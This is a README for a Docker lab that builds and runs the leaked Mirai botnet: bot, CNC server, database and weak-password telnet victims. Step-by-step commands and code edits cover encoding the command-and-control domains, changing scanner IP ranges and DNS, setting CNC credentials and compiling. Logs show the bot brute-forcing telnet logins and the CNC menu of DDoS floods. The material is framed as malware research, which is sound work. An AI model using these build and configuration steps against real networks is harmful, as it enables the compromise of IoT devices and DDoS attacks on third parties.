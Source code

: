 # Mirai-Docker

This is a docker compose file that makes it easy to build the [Mirai Botnet](https://en.wikipedia.org/wiki/Mirai_(malware)) development environment, CNC server and database.

Mirai Botnet is a malware that performs DDoS attacks by infecting insecure Internet of Things(IoT) devices.
It was used in a DDoS attack in 2016, and the source code was leaked.
It is now open to [Mirai-Source-Code](https://github.com/jgamblin/Mirai-Source-Code) for malicious code analysis and research purposes. 

미라이 봇넷의 개발 환경과 CNC 서버 및 데이터베이스를 쉽게 구축할 수 있도록 만든 도커 컴포즈 파일입니다.

미라이 봇넷은 보안이 취약한 사물 인터넷(IoT) 기기를 감염시켜 DDoS 공격을 수행하는 악성코드입니다.
2016년 DDoS 공격에 사용되었으며, 소스코드가 유출되어 현재는 악성코드 분석 및 연구 목적으로 [Mirai-Source-Code](https://github.com/jgamblin/Mirai-Source-Code)에 공개되어 있습니다.

**WARNING: FOR RESEARCH PURPOSES ONLY. 연구 목적으로만 사용하세요.**


## 01. Install docker and docker compose
- https://docs.docker.com/get-docker/
- https://github.com/docker/compose

For Ubuntu:
```
sudo apt update
sudo apt install -y ca-certificates curl software-properties-common apt-transport-https gnupg lsb-release

curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"

sudo apt install -y docker-ce docker-ce-cli containerd.io
sudo systemctl start docker
sudo systemctl enable docker
sudo usermod -aG docker $USER

docker -v
```
```
mkdir -p ~/.docker/cli-plugins/
curl -SL "https://github.com/docker/compose/releases/download/v2.2.3/docker-compose-linux-$(uname -m)" -o ~/.docker/cli-plugins/docker-compose
chmod +x ~/.docker/cli-plugins/docker-compose

docker compose version
```

## 02. Clone this repository
```
$ git clone https://github.com/deunlee/Mirai-Docker
$ cd Mirai-Docker
```


## 03. Build docker containers
```
$ docker compose build
```


## 04. Encrypt your domain
```
$ docker compose run compile ./enc.sh string cnc.changeme.com
XOR'ing 17 bytes of data...
\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22
```
```
$ docker compose run compile ./enc.sh string report.changeme.com
XOR'ing 20 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22
```

If you don't have a domain, build a DNS server locally, or use a service like [`nip.io`](https://nip.io/).
`nip.io` is a simple DNS service that returns an IP written on a domain address.
For example, `some-string-11-22-33-44.nip.io` resolves to `11.22.33.44`.
```
$ docker compose run compile ./enc.sh string cnc-172-20-0-3.nip.io
XOR'ing 22 bytes of data...
\x41\x4C\x41\x0F\x13\x15\x10\x0F\x10\x12\x0F\x12\x0F\x11\x0C\x4C\x4B\x52\x0C\x4B\x4D\x22
```
```
$ docker compose run compile ./enc.sh string report-172-20-0-4.nip.io
XOR'ing 25 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0F\x13\x15\x10\x0F\x10\x12\x0F\x12\x0F\x16\x0C\x4C\x4B\x52\x0C\x4B\x4D\x22
```


## 05. Configure bot
Edit some domains in [./src/mirai/bot/table.c](./src/mirai/bot/table.c)
```c
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
add_entry(TABLE_CNC_PORT, "\x22\x35", 2); // 23

add_entry(TABLE_SCAN_CB_DOMAIN, "\x50\x47\x52\x4D\x50\x56\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 29); // report.changeme.com
add_entry(TABLE_SCAN_CB_PORT, "\x99\xC7", 2); // 48101
```

Edit DNS server in [./src/mirai/bot/resolv.c](./src/mirai/bot/resolv.c)
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    // ...

    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(8,8,8,8); // <-- here!
    addr.sin_port = htons(53);

    // ...
}
```

If you want to enable scanner in debug mode, comment out the following two lines in [./src/mirai/bot/main.c](./src/mirai/bot/main.c)
```c
// #ifndef DEBUG // <-- comment here!
#ifdef MIRAI_TELNET
    scanner_init();
#endif
// #endif // <-- comment here!
```

Edit get_random_ip() function in [./src/mirai/bot/scanner.c](./src/mirai/bot/scanner.c)
```c
static ipv4_t get_random_ip(void)
{
    uint32_t tmp;
    uint8_t o1, o2, o3, o4;

    // comment do-while loop

    return INET_ADDR(172, 20, 0, rand_next() & 0xff); // fixed ip range
}
```

## 06. Configure CNC
Edit database config in [./src/mirai/cnc/main.go](./src/mirai/cnc/main.go)
```go
const DatabaseAddr string   = "mariadb" // "127.0.0.1"
const DatabaseUser string   = "user"
const DatabasePass string   = "this-is-password!"
const DatabaseTable string  = "mirai"
```

Edit prompt path in [./src/mirai/cnc/admin.go](./src/mirai/cnc/admin.go)
```go
headerb, err := ioutil.ReadFile("/home/user/src/mirai/prompt.txt") // <-- here!
```

Edit CNC user in [./src/scripts/db.sql](./src/scripts/db.sql)
```sql
-- CREATE DATABASE mirai; --- comment here!

CREATE TABLE `history` (

--- ...

  KEY `prefix` (`prefix`)
);

INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, ''); --- here!
```


## 07. Compile everything
```
$ docker compose run compile ./build.sh
```

Debug bot only:
```
$ docker compose run compile ./debug.sh
```


## 08. Run CNC, loader, scanListen and mariadb
```
$ docker compose up
```
```
mirai-docker-compile-1 exited with code 0
mirai-docker-victim-1   | victim :: A telnetd is running at 172.20.0.11:23
mirai-docker-victim-1   | victim :: User: root, Password: 1234
mirai-docker-victim2-1  | victim2 :: A telnetd is running at 172.20.0.12:23
mirai-docker-victim2-1  | victim2 :: User: root, Password: password
mirai-docker-victim3-1  | victim3 :: A telnetd is running at 172.20.0.13:23
mirai-docker-victim3-1  | victim3 :: User: root, Password: system
mirai-docker-bot-1 exited with code 0
mirai-docker-mariadb-1  | .....
mirai-docker-cnc-1      | Mysql DB opened
mirai-docker-scan-1     | Start scanListen
mirai-docker-scan-1     | 172.20.0.12:23 root:password
mirai-docker-scan-1     | 172.20.0.13:23 root:system
mirai-docker-scan-1     | 172.20.0.11:23 root:1234
```

## 09. Connect to CNC server
```
$ docker compose exec cnc telnet 127.0.0.1
```
or
```
$ telnet 127.0.0.1
```
```
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
я люблю куриные наггетсы
пользователь: mirai-user
пароль: **********

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
mirai-user@botnet# ?
Available attack list
dns: DNS resolver flood using the targets domain, input IP is ignored
stomp: TCP stomp flood
udpplain: UDP flood with less options. optimized for higher PPS
udp: UDP flood
vse: Valve source engine specific flood
syn: SYN flood
ack: ACK flood
greip: GRE IP flood
greeth: GRE Ethernet flood
http: HTTP flood

mirai-user@botnet#
```

<!--
```
$ docker compose run compile
mysql -h mariadb -P 3306 -u"user" -p"this-is-password!"
use mirai;
select * from users;
```
```
$ docker compose up mariadb -d
$ docker compose run compile sudo ./src/mirai/debug/cnc
```
-->


## 10. Run victim (insecure telnet server)
```
$ docker compose run victim
```


## 10. Run first bot
It will scan and report victims.
```
$ docker compose run bot /home/user/src/mirai/debug/mirai.dbg
```
